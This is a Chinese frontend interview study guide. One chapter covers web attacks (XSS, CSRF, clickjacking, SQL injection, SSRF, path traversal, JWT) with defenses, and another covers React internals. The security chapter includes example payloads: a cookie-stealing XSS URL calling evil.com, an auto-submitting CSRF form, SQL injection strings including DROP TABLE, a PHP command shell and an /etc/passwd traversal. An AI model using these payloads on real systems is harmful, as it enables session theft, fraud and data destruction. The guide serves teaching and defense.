**为什么XSS极其危险？**

```
XSS 能做的事:
  1. 窃取 Cookie/Token      → 劫持用户会话
  2. 读取 LocalStorage      → 窃取敏感数据
  3. 监听键盘输入           → 窃取密码/信用卡号
  4. 修改DOM               → 伪造登录框钓鱼
  5. 调用Web API           → 以受害者身份操作
  6. 蠕虫传播               → 自动扩散到其他用户
```

#### 7.3.2 XSS分类

| 类型 | 特点 | 数据流向 | 危害程度 |
|------|------|---------|---------|
| 存储型 XSS | 恶意代码永久保存在服务器 | 用户输入 → 服务器存储 → 其他用户访问时执行 | 危害最大 |
| 反射型 XSS | URL 参数中携带恶意脚本 | 服务器直接拼接 URL 参数返回 | 危害较小 |
| DOM 型 XSS | 前端 JS 从 URL/DOM 读取恶意代码 | 不经过服务器，前端 JS 直接解析 | 危害较小 |

**典型场景：**
- 存储型：评论/帖子等用户生成内容
- 反射型：搜索结果页面（URL 参数直接显示）
- DOM 型：前端从 location.hash 读取内容

**反射型XSS示例：**

```php
<!-- 服务器直接将URL参数输出到HTML -->
<p>搜索结果: <?php echo $_GET['q']; ?></p>

<!-- 攻击URL -->
https://site.com/search?q=<script>fetch('https://evil.com/steal?c='+document.cookie)</script>

<!-- 服务器返回 -->
<p>搜索结果: <script>fetch('https://evil.com/steal?c='+document.cookie)</script></p>
```

**存储型XSS示例：**

```javascript
// 攻击者在评论区发表:
用户名: hacker
评论内容: 

// 该评论存入数据库,所有访问该页面的用户都会执行恶意脚本
```

**DOM型XSS示例：**

```javascript
// 前端JS直接读取URL hash并写入页面
const hash = location.hash;  // #
document.getElementById('output').innerHTML = decodeURIComponent(hash.substring(1));
// 无需服务器参与,纯前端即可触发
```

#### 7.3.3 存储型/反射型/DOM型XSS区别

```
攻击流程对比:

存储型XSS:
  攻击者 → 提交恶意脚本 → 服务器(持久化) → 其他用户访问 → 脚本执行
           ↓数据库
        [恶意脚本永久保存]

反射型XSS:
  攻击者 → 构造恶意URL → 受害者点击URL → 服务器解析参数 → 脚本执行
           URL参数       (拼接进响应)    (不持久化)

DOM型XSS:
  攻击者 → 构造恶意URL → 受害者点击URL → 前端JS解析 → 直接修改DOM
           URL/hash      (纯前端处理)    (无需服务器参与)
```

**核心区别：**

| 维度       | 存储型           | 反射型           | DOM型           |
|-----------|-----------------|-----------------|----------------|
| 恶意代码位置 | 服务器数据库     | URL参数          | 前端JS/DOM      |
| 是否持久   | 永久             | 不持久           | 不持久          |
| 触发方式   | 访问页面          | 点击特殊URL      | 修改URL hash    |
| 服务器参与 | 是               | 是               | 否(纯前端)      |

---

### 7.4 XSS防御

#### 7.4.1 通用防御措施

**1. 输入过滤与输出编码**

```javascript
// 输出编码函数
function escapeHtml(str) {
  return str
    .replace(/&/g, '&amp;')
    .replace(/</g, '&lt;')
    .replace(/>/g, '&gt;')
    .replace(/"/g, '&quot;')
    .replace(/'/g, '&#x27;');
}

// 在输出到HTML时使用
element.textContent = userInput;        // 安全: 不会执行HTML
element.setAttribute('title', userInput); // 安全
// element.innerHTML = userInput;       // 危险: 可能含恶意脚本
```

**2. CSP (Content Security Policy)**

CSP通过HTTP响应头指示浏览器只允许加载特定来源的资源，从根本上禁止内联脚本执行：

```nginx
# Nginx配置
add_header Content-Security-Policy "
  default-src 'self';
  script-src 'self' 'nonce-{random}';
  style-src 'self' 'nonce-{random}';
  img-src 'self' https: data:;
  connect-src 'self' https://api.example.com;
  frame-ancestors 'none';
" always;
```

```
CSP指令说明:
  default-src 'self'           → 默认只允许同源资源
  script-src 'self'            → JS只允许同源
  script-src 'nonce-abc123'    → 只允许带此nonce的内联脚本
  script-src 'unsafe-inline'   → 允许内联脚本 (不推荐!)
  script-src 'unsafe-eval'     → 允许eval() (不推荐!)
  frame-ancestors 'none'       → 禁止被iframe嵌入
  img-src data:                → 允许data:URI图片
```

**CSP为什么能防XSS？**

```
传统XSS攻击流程:
  攻击者注入: <script src="https://evil.com/xss.js"></script>

CSP生效后:
  script-src 'self'             → 拒绝加载evil.com的脚本
  'nonce-xxx' 要求脚本必须有正确nonce → 内联脚本被阻止

即使攻击者注入 <script>alert(1)</script>:
  → 无效,因为CSP禁止unsafe-inline
  → 即使能注入,也无法执行
```

**3. HttpOnly Cookie**

```http
Set-Cookie: sessionId=abc123; HttpOnly; Secure; SameSite=Strict
```

```
HttpOnly标志的作用:
  ✓ JS无法通过 document.cookie 读取该cookie
  ✓ XSS脚本无法窃取sessionId
  ✗ 但攻击者仍可通过XSS发起CSRF请求(自动携带cookie)

HttpOnly不能防止XSS:
  → 攻击者虽然拿不到cookie,但可以:
    - 读取页面内容(绕过CSRF token可见性)
    - 发起AJAX请求(请求仍会自动携带cookie)
    - 修改页面DOM(钓鱼攻击)
    - 触发其他恶意行为
```

#### 7.4.2 React的安全机制

**React为什么相对安全？**

```jsx
// React默认会对所有插入的内容进行转义
function SafeComponent({ userInput }) {
  return <div>{userInput}</div>;
  // <div>&lt;script&gt;alert(1)&lt;/script&gt;</div>
  // 渲染为文本,不会执行为JS
}

// 但使用 innerHTML 就会绕过React的转义:
function DangerousComponent({ userInput }) {
  return <div dangerouslySetInnerHTML={{ __html: userInput }} />;
  // 如果userInput含<script>,会执行!
}
```

**dangerouslySetInnerHTML的危险：**

```jsx
// 危险示例 - 攻击者控制的内容
function Comment({ content }) {
  // content来自用户输入,可能含恶意脚本
  return <div dangerouslySetInnerHTML={{ __html: content }} />;
}

// 即使内容看起来安全,也可能被绕过:
const maliciousContent = ``;
```

**DOMPurify原理：**

```javascript
// DOMPurify使用浏览器原生DOM解析器,安全净化HTML
import DOMPurify from 'dompurify';

// 净化HTML,移除危险内容
const clean = DOMPurify.sanitize(dangerousHtml, {
  ALLOWED_TAGS: ['b', 'i', 'em', 'strong', 'p', 'br'],  // 只允许安全标签
  ALLOWED_ATTR: ['class'],                                // 只允许安全属性
  FORBID_TAGS: ['script', 'iframe', 'object', 'embed'],   // 禁止危险标签
  FORBID_ATTR: ['onerror', 'onload', 'onclick', 'onmouseover'], // 禁止事件属性
});

// 净化过程:
const dirty = '<p>Hello</p><script>alert(1)</script>';
// → '<p>Hello</p>'
```

DOMPurify的核心原理：
1. 使用浏览器的`DOMParser`将HTML字符串解析为DOM节点树
2. 遍历节点树，只保留白名单中的标签和属性
3. 丢弃所有事件处理器属性（如`onerror`、`onclick`）
4. 对URL属性进行协议白名单检查（禁止`javascript:`）
5. 序列化净化后的DOM为HTML字符串

---

### 7.5 CSRF（跨站请求伪造）

#### 7.5.1 什么是CSRF

CSRF（Cross-Site Request Forgery）利用用户已登录的身份，诱导用户浏览器向目标站点发起非预期的请求：

**攻击流程：**

| 步骤 | 说明 |
|------|------|
| 1 | 正常用户登录银行网站，设置 Cookie: sessionId=abc123 |
| 2 | 攻击者构造恶意页面 https://evil.com/csrf |
| 3 | 用户访问 evil.com，浏览器加载 HTML 自动提交表单 |
| 4 | 请求发送到 bank.com，自动携带 cookie |
| 5 | 银行验证 cookie（有效），执行转账 |
| 6 | 用户毫不知情 |

**恶意页面示例：**
```html
<html>
<body onload='document.forms[0].submit()'>
<form action='https://bank.com/transfer' method='POST'>
  <input name='to' value='attacker' />
  <input name='amount' value='10000' />
</form>
</body>
</html>
```

#### 7.5.2 CSRF为什么能成功

CSRF成立的两个前提：
1. **浏览器自动携带Cookie**：符合HTTP规范，浏览器发往`bank.com`的请求会自动携带该域的Cookie
2. **Cookie-based认证**：服务器只验证Cookie，不验证请求来源

```
攻击者无法做到:
  ✗ 读取bank.com的Cookie(SOP限制)
  ✗ 读取bank.com的响应(SOP限制)

攻击者可以做到:
  ✓ 诱导浏览器向bank.com发送请求(表单/图片/脚本均可发起GET/POST)
  ✓ 浏览器会自动携带bank.com的Cookie
  ✓ 服务器只验证Cookie有效性,不验证请求来源
```

#### 7.5.3 SameSite Cookie原理

```http
SameSite=Lax  (Chrome 67+ 默认)
Set-Cookie: sessionId=abc123; SameSite=Lax

SameSite=Strict
Set-Cookie: sessionId=abc123; SameSite=Strict

SameSite=None (需要Secure)
Set-Cookie: sessionId=abc123; SameSite=None; Secure
```

```
SameSite行为:
  Strict  → 所有跨站请求都不携带cookie
            用户从外部链接跳转也不行(体验差)
  Lax     → GET请求允许携带cookie, POST/iframe不允许
            (大多数CSRF是POST, Lax可以防护大部分)
  None    → 不限制(旧行为,需要Secure)

实际例子:
  SameSite=Lax时:
    <a href="https://bank.com"> → GET, 携带cookie ✓
    <form method="POST">        → POST, 不携带cookie ✗
     → GET, 携带cookie ✓
    第三方页面JS fetch()        → 不携带cookie ✗
```

#### 7.5.4 CSRF Token原理

```html
<!-- 服务器响应: HTML表单中嵌入token -->
<form action="/transfer" method="POST">
  <input type="hidden" name="csrf_token" value="7k3d9f2...">
  ...
</form>
```

```javascript
// 服务器端验证CSRF Token
function validateCsrfToken(req) {
  const sessionToken = req.session.csrfToken;    // 从Session读取
  const requestToken = req.body.csrf_token ||    // POST body
                      req.headers['x-csrf-token']; // 或header

  if (!sessionToken || !requestToken) {
    throw new Error('Missing CSRF token');
  }

  if (!crypto.timingSafeEqual(
    Buffer.from(sessionToken),
    Buffer.from(requestToken)
  )) {
    throw new Error('Invalid CSRF token');
  }
}
```

```
CSRF Token防护原理:
  攻击者构造恶意页面时:
    - 无法读取目标页面的HTML(同源策略)
    - 无法获取表单中的csrf_token值
    - 发送的请求不带正确的csrf_token
    - 服务器验证失败 → 请求被拒绝
```

#### 7.5.5 为什么XSS能绕过CSRF

XSS攻击者可以通过JS读取页面内容，从而获取CSRF Token：

```javascript
// 存储型XSS注入后,攻击者可以:
// 1. 读取页面中的CSRF Token
const token = document.querySelector('input[name="csrf_token"]').value;

// 2. 使用正确的Token发起请求(绕过CSRF防护)
fetch('/transfer', {
  method: 'POST',
  body: `to=attacker&amount=10000&csrf_token=${token}`,
  credentials: 'include'  // 携带Cookie
});

// 3. 甚至可以读取响应内容
const response = await fetch('/transfer');
const result = await response.text();
sendToAttacker(result);
```

```
防御思路:
  XSS是CSRF Token的"天敌":
    ✗ 纯前端CSRF Token → XSS可以读取
    ✓ 真正解决方案:
       (1) 严格防护XSS(消除XSS才能保证CSRF防护有效)
       (2) 使用SameSite Cookie(不依赖Token)
       (3) 验证Origin/Referer头(辅助手段)
```

---

### 7.6 点击劫持 (Clickjacking)

#### 7.6.1 什么是点击劫持

攻击者通过`iframe`将目标网站覆盖在恶意页面上，通过视觉欺骗诱导用户点击：

```html
<!-- 恶意页面 -->
<style>
  iframe { position:absolute; top:100px; left:50px;
    opacity:0.1; width:600px; height:400px; }
  button { position:absolute; top:200px; left:200px; z-index:1; }
</style>

<iframe src="https://bank.com/send-money?to=attacker&amount=10000"></iframe>
<button>领取奖励</button>
<!-- 实际点击的是iframe中的"确认转账"按钮 -->
```

#### 7.6.2 Clickjacking防御

**1. X-Frame-Options 响应头**

```http
X-Frame-Options: DENY       <!-- 完全禁止被iframe嵌入 -->
X-Frame-Options: SAMEORIGIN <!-- 只允许同源iframe -->
```

**2. CSP frame-ancestors指令**

```http
Content-Security-Policy: frame-ancestors 'none';
Content-Security-Policy: frame-ancestors 'self' https://trusted.com;
```

#### 7.6.3 iframe sandbox原理

```html
<!-- sandbox属性完全隔离iframe内的代码能力 -->
<iframe src="https://untrusted.com/page" sandbox="
  allow-scripts          <!-- 允许执行JS -->
  allow-same-origin      <!-- 允许同源访问(会降低安全性) -->
"></iframe>
```

```
sandbox隔离的能力:
  ✗ 修改父页面DOM
  ✗ 读取父页面Cookie/Storage
  ✗ 发起跨域请求(但form提交仍可发往任何域)
  ✗ 使用top/history API修改URL
  ✓ 可以展示内容
  ✓ 可以执行JS(加了allow-scripts)
```

---

### 7.7 SQL注入

#### 7.7.1 什么是SQL注入

攻击者在输入中注入SQL语句，破坏原有SQL的逻辑：

```javascript
// 危险代码 - 直接拼接用户输入
const query = `SELECT * FROM users WHERE
  username = '${username}' AND password = '${password}'`;

// 用户输入: username = admin' --
// 拼接后:
SELECT * FROM users WHERE username = 'admin' --' AND password = 'anything'
// ' -- 后面的内容变成注释,密码验证被绕过!

// 其他恶意输入:
username = "admin' OR '1'='1' --"   // 永真条件,绕过认证
username = "'; DROP TABLE users; --" // 删除整个表!
```

#### 7.7.2 SQL注入防御

```javascript
// ✅ 使用参数化查询(Prepared Statements)
const query = 'SELECT * FROM users WHERE username = ? AND password = ?';
db.execute(query, [username, password]);
// 参数与SQL结构分离,输入被当作纯数据处理,无法改变SQL结构

// ✅ 使用ORM框架(自动参数化)
const user = await User.findOne({
  where: { username, password: hash(password) }
});

// ✅ 输入验证 + 最小权限原则
function validateUsername(input) {
  return /^[a-zA-Z0-9_]{3,20}$/.test(input);
}
```

---

### 7.8 SSRF 与 DDoS

#### 7.8.1 SSRF（服务器端请求伪造）

```javascript
// 危险: 用户提供URL,服务器发起请求
app.get('/fetch', async (req, res) => {
  const { url } = req.query;
  // 攻击者可以用这个接口:
  // 1. 访问内网服务: url = http://192.168.1.1/admin
  // 2. 访问云元数据: url = http://169.254.169.254/latest/meta-data/
  // 3. 扫描内网端口
  const response = await fetch(url);
  const data = await response.text();
  res.send(data);
});
```

**SSRF防御：** 输入URL白名单验证、禁止访问内网IP段（10.x/172.16.x/192.168.x）、禁止访问云元数据地址、限制请求方法和响应大小。

#### 7.8.2 DDoS（分布式拒绝服务）

```
DDoS攻击类型:
  1. 带宽消耗型   → 发送大量流量,堵死带宽
  2. 协议攻击     → SYN Flood, 利用TCP握手消耗服务器资源
  3. 应用层攻击   → HTTP Flood, 发送大量看似合法的请求
  4. 僵尸网络     → 利用大量被控设备(肉鸡)同时发起请求

防御手段: CDN分发流量、WAF防火墙、限流、CAPTCHA、Anycast架构
```

---

### 7.9 中间人攻击与HTTPS

#### 7.9.1 什么是中间人攻击

**正常通信：**

```
用户 ←[加密]→ 服务器
```

**中间人攻击：**

```
用户 ←[加密]→ 攻击者 ←[加密]→ 服务器
             ↓
        (解密后查看/修改内容)
        (转发并重新加密)
```

#### 7.9.2 HTTPS如何防止MITM

```
TLS握手流程:
  1. 客户端 → 服务器: ClientHello (支持的加密套件, 随机数)
  2. 服务器 → 客户端: ServerHello (选中的加密套件, 随机数)
                   + 证书 (包含公钥, 由CA签发)
  3. 客户端 → 服务器: PreMasterSecret (用证书公钥加密)
  4. 双方计算MasterSecret,建立对称加密密钥
  5. 此后所有通信使用对称加密

中间人为什么失败:
  攻击者没有服务器的私钥 → 无法解密PreMasterSecret
  → 无法计算出对称密钥 → 无法解密/篡改后续通信
```

**HSTS**强制浏览器只使用HTTPS：

```http
Strict-Transport-Security: max-age=31536000; includeSubDomains; preload
```

---

### 7.10 文件上传漏洞与路径穿越

#### 7.10.1 文件上传漏洞

```javascript
// 危险: 直接保存用户上传的文件
app.post('/upload', (req, res) => {
  const file = req.files.avatar;
  file.mv('/uploads/' + file.name);  // 恶意文件名可造成问题

  // 攻击者上传: 1.php, 内容为 <?php system("ls"); ?>
  // 访问 https://app.com/uploads/1.php?cmd=ls → 执行任意命令!
});

// 安全做法:
function secureUpload(file) {
  // 1. 验证文件类型(MIME + 扩展名 + 魔数)
  // 2. 生成随机文件名 crypto.randomUUID()
  // 3. 保存到隔离的非可执行目录
  // 4. 对图片进行二次渲染(去除可能的嵌入代码)
}
```

#### 7.10.2 路径穿越

```javascript
// 危险: 用户可通过 ../ 穿越目录
app.get('/download', (req, res) => {
  const file = req.query.file;
  // ?file=../../etc/passwd → 实际路径: /etc/passwd
  res.sendFile('/uploads/' + file);
});

// 防御: 使用path.resolve并验证最终路径
const safePath = path.resolve('/uploads', userInput);
if (!safePath.startsWith('/uploads/')) {
  throw new Error('Invalid path');
}
```

---

### 7.11 JWT安全问题与Token泄漏风险

#### 7.11.1 JWT结构

```
JWT = Header.Payload.Signature

eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.    ← Header(JSON → Base64)
eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6Ik  ← Payload(JSON → Base64)
pXVCJ9.                                 ← Signature(HS256)

Header:  {"alg":"HS256","typ":"JWT"}
Payload: {"sub":"1234567890","name":"John","iat":1516239022,"exp":...}
```

#### 7.11.2 Token泄漏风险

```javascript
// ❌ 危险: 存放在LocalStorage → XSS攻击可直接读取
localStorage.setItem('token', jwt);

// ✅ 相对安全: HttpOnly Cookie (但可能被CSRF利用)
res.cookie('token', jwt, { httpOnly: true, secure: true, sameSite: 'strict' });

// ✅ 更安全: Memory (页面刷新会丢失, 需要Refresh Token配合)
```

#### 7.11.3 JWT其他安全问题

```javascript
// 1. alg:none攻击 → 不验证签名,伪造payload
{"alg":"none","typ":"JWT"}

// 2. 密钥混淆 → HS256用RS256公钥当密钥
// 3. 不设置exp → Token永不过期
// 4. 弱密钥 → 暴力破解
```

---

### 7.12 Session Fixation 与 重放攻击

#### 7.12.1 Session Fixation

```
攻击流程:
  1. 攻击者获取Session ID: abc123
  2. 构造链接诱导受害者使用该ID登录
  3. 受害者登录后,攻击者用abc123访问 → 以受害者身份操作

防御: 用户登录后更换Session ID
```

#### 7.12.2 重放攻击

```javascript
// 防御1: 使用Nonce (一次性随机数)
const nonce = crypto.randomBytes(16).toString('hex');
const request = { action: 'transfer', amount: 1000, nonce, timestamp: Date.now() };
server.usedNonces.add(nonce);

// 防御2: 时间戳验证
if (request.timestamp < Date.now() - 5 * 60 * 1000) {
  throw new Error('Request expired');
}
```

---

### 7.13 数字签名与 HMAC

#### 7.13.1 数字签名原理

```
签名过程:
  消息 → Hash函数 → 摘要 → 用私钥加密 → 数字签名

验签过程:
  接收消息+签名 → 用公钥解密 → 得到摘要A
              → 对消息Hash → 得到摘要B
              → A===B? → 验证通过

关键: 私钥只有签名者知道,无法从公钥推导,Hash无法逆向
```

#### 7.13.2 HMAC原理

HMAC（Hash-based Message Authentication Code）使用共享密钥生成认证码：

```javascript
const crypto = require('crypto');

function hmacSign(message, secret) {
  return crypto.createHmac('sha256', secret).update(message).digest('hex');
}

function hmacVerify(msg, sig, secret) {
  return crypto.timingSafeEqual(
    Buffer.from(sig, 'hex'),
    Buffer.from(hmacSign(msg, secret), 'hex')
  );
}

// GitHub Webhook使用HMAC-SHA256验证签名
```

---

### 7.14 WebSocket 安全问题

```javascript
// 1. 无同源策略限制: WebSocket不受SOP限制
//    → 任何页面都可连接你的WebSocket服务器

// 2. 防御: 使用Origin验证
const wss = new WebSocket.Server({
  verifyClient: (info) => allowed.includes(info.origin)
});

// 3. 必须使用 WSS (WebSocket Secure)
const ws = new WebSocket('wss://secure.com/ws');  // ✓ 加密
const ws = new WebSocket('ws://insecure.com/ws'); // ✗ 不安全

// 4. 身份验证: Cookie不会自动发送,需在握手时传Token
```

---

### 7.15 OAuth2 安全问题

```javascript
// OAuth2常见安全漏洞:
const issues = [
  'redirect_uri不验证 → 攻击者构造恶意回调地址',
  'state参数不验证 → 遭受CSRF攻击',
  'client_secret明文存储在前端 → 完全暴露',
  'scope不限制 → 拿了全部权限',
  '隐式流Token暴露 → 不使用隐式流',
  '缺少PKCE → 授权码被拦截',
];

// PKCE流程 (防止授权码拦截):
// 1. 客户端生成code_verifier
// 2. 计算code_challenge=SHA256(verifier)
// 3. 发送challenge,服务器返回code
// 4. 用code+verifier换取token
// 5. 服务器验证challenge匹配
```

---

### 7.16 浏览器沙箱机制

**浏览器沙箱层级：**

| 层级 | 说明 |
|------|------|
| 操作系统 | Ring 0 - 内核 |
| 浏览器主进程 | 网络/磁盘/GPU 访问 |
| 渲染进程 | 沙箱内，受限 syscall |
| JS引擎 (V8) | 执行 JS |
| DOM/CSS引擎 | 解析 DOM/CSS |
| 事件系统 | 处理用户交互 |

**约束：**
- 只能通过 IPC 与浏览器主进程通信
- 无法直接访问文件系统
- 无法直接调用系统 API

**Chrome 进程模型：**
- Site Isolation：不同站点页面在独立进程中
- 每个渲染进程沙箱化，即使 V8 被攻破也难以逃逸

---

### 7.17 CORB / CORP / COEP / COOP

这些是浏览器侧信道攻击缓解机制：

```http
# CORP (Cross-Origin Resource Policy) — 声明谁可加载你的资源
Cross-Origin-Resource-Policy: same-origin | same-site | cross-origin

# COEP (Cross-Origin-Embedder-Policy) — 要求子资源明确授权
Cross-Origin-Embedder-Policy: require-corp

# COOP (Cross-Origin-Opener-Policy) — 浏览上下文跨域隔离
Cross-Origin-Opener-Policy: same-origin | same-origin-allow-popups
```

```
为什么需要这些头部? → 防止Spectre类侧信道攻击

COEP+COOP+CORP配合:
  COEP → 所有子资源必须显式允许跨域访问
  COOP → 不同源页面独立进程,不能通过opener通信
  CORP → 资源明确声明谁可以加载

三者合一 → 恶意页面无法通过<script>加载敏感数据,
          无法通过window.open/opener跨域通信
```

---

### 7.18 Spectre漏洞

```
Spectre (CVE-2018-3639, CVE-2018-3640):

原理:
  1. CPU有预测执行(Speculative Execution)特性
     → 在分支结果确定前,CPU已提前执行分支代码
  2. 攻击者通过training使CPU误判分支
  3. 利用CPU缓存侧信道(访问时间差异)读取任意内存

在浏览器中的攻击:
  → 恶意JS利用预测执行读取同进程内其他域的内存数据
  → 可能泄露跨域cookie/密码/Token等

缓解措施:
  - Site Isolation: 跨域页面放不同进程
  - COEP+COOP: 隔离浏览上下文
  - 限制SharedArrayBuffer(高精度计时器)
  - 降低定时器精度(performance.now()节流)
```

---

# ====== END OF CHAPTER 7 ======


---

---

## Chapter 8: React超完整题库

### 8.1 React为什么出现与虚拟DOM

#### 8.1.1 为什么需要React

```javascript
// 原生DOM操作的问题:
const container = document.getElementById('root');
const list = ['苹果', '香蕉', '橘子'];
const ul = document.createElement('ul');
list.forEach(item => {
  const li = document.createElement('li');
  li.textContent = item;
  ul.appendChild(li);
});
container.appendChild(ul);
// 数据变化时: 需要精确知道哪些DOM要更新 → 极难维护
```

**React的核心思想：** UI = f(state)，用声明式编程替代命令式DOM操作：

```jsx
// React: 描述"UI应该是什么样"
function FruitList({ fruits }) {
  return (
    <ul>
      {fruits.map(fruit => (
        <li key={fruit.id}>{fruit.name}</li>
      ))}
    </ul>
  );
}
// 数据变化时 → 重新调用函数 → React自动计算差异并更新DOM
```

#### 8.1.2 虚拟DOM

```
虚拟DOM的本质: 用JS对象描述真实DOM结构

真实DOM:
  <div class="container"><h1>Hello</h1></div>

虚拟DOM (JS对象):
  { type: 'div', props: { className: 'container', children: [
    { type: 'h1', props: { children: 'Hello' } }
  ]}}

React渲染流程:
  JSX → React.createElement() → 虚拟DOM对象
    → 旧虚拟DOM树 vs 新虚拟DOM树 → React Diff算法 → 最小化DOM操作
```

**虚拟DOM的优势：**
1. 跨平台: React Native用同一套虚拟DOM渲染原生组件
2. 声明式: 开发体验好,无需手动追踪更新
3. 批量更新: 多个setState只触发一次渲染
4. 函数式: 纯函数,易于测试和推理

---

### 8.2 Fiber架构

#### 8.2.1 为什么需要Fiber

React 15的Stack Reconciler存在致命问题：**同步递归无法中断**：

```
React 15协调器的问题:
  用户点击 → setState
    → React开始递归调和(reconcile), 10000个组件 → 100ms+
    → 期间无法响应用户输入/动画 → 页面卡顿 (jank)
```

Fiber的核心目标：**将协调过程拆分为可中断的工作单元**。

#### 8.2.2 Fiber节点数据结构

```javascript
function FiberNode(tag, pendingProps, key, mode) {
  // 节点标识
  this.tag = tag;           // FunctionComponent/ClassComponent/...
  this.key = key;
  this.type = null;         // div/button/MyComponent
  this.stateNode = null;    // 真实DOM节点或组件实例

  // Fiber树链 (双向链表)
  this.return = null;     // 父Fiber
  this.child = null;       // 第一个子Fiber
  this.sibling = null;     // 下一个兄弟Fiber

  // 状态
  this.pendingProps = pendingProps;
  this.memoizedProps = null;
  this.memoizedState = null; // 组件内部状态(Hooks链表)

  // 优先级与调度
  this.lanes = 0;            // 任务优先级
  this.alternate = null;     // 双缓冲: 另一个版本的Fiber
}
```

**Fiber树结构（双缓冲）：**

| 阶段 | 说明 |
|------|------|
| current tree | 已渲染，显示中 |
| setState | 触发更新 |
| workInProgress tree | 构建中 |
| 切换 | 构建完成后 alternate 指针切换，current = workInProgress（原子性替换） |

**Fiber 双缓冲优势：**
1. 屏幕上始终展示完整的旧树，没有半成品状态
2. 新树构建完成后再一次性替换，更新原子化
3. 通过 `alternate` 指针实现 O(1) 的树切换

#### 8.2.3 Work Loop (可中断的协调)

```javascript
function workLoop(deadline) {
  // 是否应让出控制权给浏览器
  while (nextUnitOfWork && deadline.timeRemaining() > 0) {
    nextUnitOfWork = performUnitOfWork(nextUnitOfWork);
    // 处理完一个Fiber后检查: 剩余时间够吗?
    // 不够 → 停止,让出主线程
  }

  if (nextUnitOfWork) {
    requestIdleCallback(workLoop); // 空闲时继续
  } else {
    commitRoot(); // 全部完成,提交
  }
}

function performUnitOfWork(fiber) {
  // 1. 创建/更新DOM节点
  // 2. 为每个子Fiber创建工作(建立链表)
  // 3. 返回下一个待处理的Fiber:
  //    child → sibling → return.sibling → 回溯
}
```

**Fiber双缓冲优势：**
1. 屏幕上始终展示完整的旧树，没有半成品状态
2. 新树构建完成后再一次性替换，更新原子化
3. 通过`alternate`指针实现O(1)的树切换

---

### 8.3 React Diff算法

React Diff是Fiber架构的"协调"阶段，通过比较新旧虚拟DOM树找出最小更新集合。

#### 8.3.1 三大策略

| 策略 | 说明 |
|------|------|
| Tree Diff | DOM 节点跨层级操作很少，只同层比较，O(n) 算法 |
| Component Diff | 不同类型的元素产生不同树，类型不同则卸载重建 |
| Element Diff | 通过 key 标记稳定元素，支持移动/新增/删除 |

**React Diff 三大核心前提：**
1. Web DOM 节点跨层级操作很少（tree diff 用 O(n) 算法）
2. 不同类型的元素产生不同树（component diff）
3. 通过 key 标记稳定元素（element diff）

#### 8.3.2 Tree Diff

```
策略: 同层比较,不同则删除该层及以下所有节点

旧树: A→B→C → 新树: A→D→C
  1. 比较A(相同,保留)
  2. 比较B vs D (不同类型) → 卸载B,C → 创建D
  3. 创建C (挂到D下)

跨层级移动代价高 → 同层移动只需sibling指针调整
```

#### 8.3.3 Component Diff

```
策略: 同一层级比较组件类型
  类型相同 → diff该组件
  类型不同 → 卸载旧组件树 → 挂载新组件树

注意: PureComponent/React.memo可优化diff效率
React会先比较props,相同则跳过render
```

#### 8.3.4 Element Diff

```javascript
// 无key: O(n²), 所有元素被标记为移动
[A, B, C] → [A, C, B]  →  B和C都被标记为移动到新位置

// 有key: O(n), 精确识别新增/删除/移动
keys: 1(A),2(B),3(C) → 1(A),3(C),2(B)
  1(A) vs 1(A) → 复用 ✓
  2(B) vs 3(C) → 删除B,创建C
  3(C) vs 2(B) → 不存在 → 已处理
  // C被复用(只移动),B被删除并重建
```

---

### 8.4 为什么key不能用index

```jsx
// ❌ key=index: 删除中间项时,index对应的元素变了
// items=[A,B,C] key=[0,1,2]
// 删除A后: items=[B,C] key=[0,1]
// React diff:
//   key=0: B vs A → 内容变了 → UPDATE (应为DELETE!)
//   key=1: C vs B → 内容变了 → UPDATE (应为复用!)
// 总共2次UPDATE而不是1次DELETE+1次复用

// 有局部状态时更严重:
// items=[A,B,C] input值=[A,B,C]
// 删除A后: items=[B,C] → input值错位为[B,C]!

// ✅ key=id: 精确追踪元素
// items=[{id:1,A},{id:2,B},{id:3,C}]
// 删除id=1后: React精确识别 → 1次DELETE,2次复用
```

---

### 8.5 React调度机制与Lane模型

#### 8.5.1 Lane模型

**32位bit表示优先级（位运算：O(1)）：**

| Lane | 说明 |
|------|------|
| SyncLane | 同步最高（用户点击） |
| InputContinuousLane | 拖拽/滚动 |
| DefaultLane | 普通 setState |
| TransitionLane | 低优先级（useTransition） |
| IdleLane | 空闲最低 |

**位运算优势：**
- `lanes = laneA | laneB`：标记多个优先级
- `(lanes & lane) > 0`：冲突检测
- `lanes &= ~lane`：清除已处理车道

**调度流程：**
1. setState() 分配 lane → root.pendingLanes
2. scheduler.scheduleCallback(priority, callback)
3. 等待主线程空闲时执行
4. 高优先级插队：用户点击（SyncLane）可打断 DefaultLane
5. 先处理 SyncLane，完成后恢复 DefaultLane

**useTransition 示例：**
```javascript
startTransition(() => setCount(1000));
// setCount 标记为 TransitionLane（低优先级，可被打断）
```

---

### 8.6 Hooks原理

#### 8.6.1 Hooks基于Fiber链表的存储

**原理：** 每个组件的 Hooks 按调用顺序串联成链表，挂在 Fiber.memoizedState 上。

```
function MyComponent() {
  const [count, setCount] = useState(0); // Hook
  const [name, setName] = useState('');  // Hook
  useEffect(() => {}, []);                // Hook
}
```

**Fiber.memoizedState 链表：**

| Hook | 数据 |
|------|------|
| Hook 1 | state: 0 |
| Hook 2 | state: '' |
| Hook 3 | effect: fn |

**为什么不能用条件语句包裹 Hook：**
- 第一次渲染：Hooks 按顺序串联成链表
- 第二次渲染：Hooks 按相同顺序被读取，顺序被打乱会导致 state 错位

#### 8.6.2 Mount vs Update阶段

```javascript
function useState(initialValue) {
  const hook = currentlyRenderingFiber.memoizedState;

  if (hook) {
    // UPDATE: 复用已有Hook,遍历队列计算最新状态
    let update = hook.queue.pending;
    while (update) {
      hook.memoizedState = typeof update.action === 'function'
        ? update.action(hook.memoizedState)   // setState(prev=>...)
        : update.action;                      // setState(value)
      update = update.next;
    }
    return [hook.memoizedState, dispatch];
  }

  // MOUNT: 创建新Hook节点,初始化状态
  const newHook = createHook(initialValue);
  return [initialValue, dispatch];
}
```

#### 8.6.3 useEffect异步 vs useLayoutEffect同步

```javascript
// useEffect: 异步执行 (不阻塞paint)
useEffect(() => { /* 请求/订阅/定时器 */ }, [deps]);

// useLayoutEffect: 同步执行 (阻塞paint)
useLayoutEffect(() => { /* DOM测量/同步修改 */ }, [deps]);
```

```
执行时机:
  render() → commit(DOM mutations) → layoutEffect(同步)
    → paint(浏览器绘制) → effect(异步)

为什么useEffect是异步:
  - 不阻塞浏览器渲染,保证UI流畅
  - 多个effect可批量处理

为什么useLayoutEffect是同步:
